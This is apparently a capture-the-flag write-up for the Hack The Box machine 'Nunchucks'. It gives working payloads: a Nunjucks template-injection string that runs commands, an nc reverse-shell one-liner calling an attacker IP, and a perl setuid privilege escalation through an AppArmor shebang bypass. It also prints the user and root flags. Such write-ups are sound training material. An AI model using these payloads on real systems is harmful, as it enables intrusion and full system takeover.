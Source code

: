 # Nunchucks 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/07260abf-8e6f-49eb-86fa-aefb6913930f)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ nmap -p- -sVC 10.10.11.122 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 03:41 PDT
Nmap scan report for 10.10.11.122
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.76 seconds
```

1. Based from the nmap results, the machine runs a web applicatoin and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0e52b16f-9ae9-402b-8691-25f5011ffc30)


2. Trying every feature, resulting to nothing interesting. Even when tried to register account, they said it's closed already.
3. Running **dirbuster** found nothing interesting again.
4. But checking the subdomain, by running **gobuster**, found one domain that should be our interest --> `store.nunchucks.htb`.

#### NOTES:
```
Since nunchuck is https --> hence need to add -k

gobuster vhost -u host -w wordlists -k
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3bf45dc4-6fcb-44db-b099-ca71aaf0a13d)


5. Long story short found the vuln at the **Notify Me** textbox --> SSTI.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6408bf16-245e-448e-8c0f-6418f281c85e)


6. The vuln is SSTI as you can see the webserver execute the regex operation.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/22c82c7c-0e2e-4059-b1aa-58148a6c2447)


7. Great! Seems this is our foothold.
8. Anyway, after ran another ssti for flask, it shows nothing.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/16c5bb63-e8f4-4945-a106-1824e140aabb)


9. Not took me long to realized that the template engine used probably is **Nunjucks**. It's easy to guess based from the chall title and programming language used in this webapp.

> WAPPALYZER RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63734eda-2187-4acd-8dfc-d3889acce18b)


10. Did a little outsource about **Nunjucks Template Engine** exploit.

```
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3e2f4c37-6109-4a83-bada-54e895ef8553)


11. But we need to revised a little bit.

> REVISED

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gmail.com
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9203ea2-0ebb-48f5-ae52-516ac4c9335d)


12. Let's spawn reverse shell with our template payload. Here's the full payload:

> PAYLOAD

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.20 1337 >/tmp/f')\")()}}@gmail.com
```

#### NOTE:

```
Use the previous request we sent to repeater then change the JSON email parameter value, it won't work if we tried to catch the request from 0 again.
```

> RESULT - GOT RCEEEEE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab0062ae-ff95-4cd2-a6a5-a4b52f5232ee)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/987824cc-b833-48f5-9811-353167867a9b)


## USER FLAG

```
341e52e2c4724a2da3b7af04a076458b
```

13. Actually it took me a while to get the root flag, until I realized the capabilities for perl is vulnerable here.

> To check cap --> run --> getcap -r /

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4661780-cafc-4725-85f5-46c9dae72057)


14. To do privesc we can use this --> `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`.
15. Anyway dunno why it can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/845ae0e5-da06-40b3-b928-468cf63c4d40)


16. Even to get the root flag still can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab4e90d8-637b-4db4-afb7-816f8dbe28a8)


17. Interesting, this kind of thing shall related to **Apparmor**. It's primary purpose is to protect the system and its resources by enforcing fine-grained access control policies on the actions that specific applications or processes can perform.
18. We can prove that interpretation by run --> `cat /etc/apparmor.d/usr.bin.perl`.
19. Noticed there's a .pl file inside /opt/.

> backup.pl

```
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

20. What's interesting here is, as user we can execute this backup.pl file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ecace07c-9ac8-4a6c-9ccd-af99c3922aa5)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9fd5323-7289-4d85-9a56-4693eb262e2a)


21. Amazing this should allows us to do privesc.
22. But we can't overwrite the backup.pl file. Stuck in a rabbit hole once again.
23. Until I did a research about --> **Apparmor perl bugs** --> https://bugs.launchpad.net/apparmor/+bug/1911431.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fdb5436-9f02-466c-8435-a288e04eacaa)


24. This means, we can execute scripts with the shebang. Also they won't apply the AppArmor profile to our script.
25. Great! Let's make another .pl file which contains our previous perl payload but we add the **shebang**.
26. Before that, let's run `script /dev/null sh` to start a new shell session.
27. Then navigate to /tmp directory, because that's the only place we're allowed to make files.
28. Lastly run this --> `echo '#!/usr/bin/perl -e use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' > shell.pl`.
29. Then make **shell.pl** file executeable and run it.

> RESULT - GOT ROOT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/34ebafa4-3cf3-4a11-b4c4-ce1cbb7e08f0)


> GETTING ROOT FLAG


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3ec3ca8b-542f-4b53-85c7-419f394b57bd)


## ROOT FLAG

```
54274cf8cddcefe12bc8bf6f5e747302
```

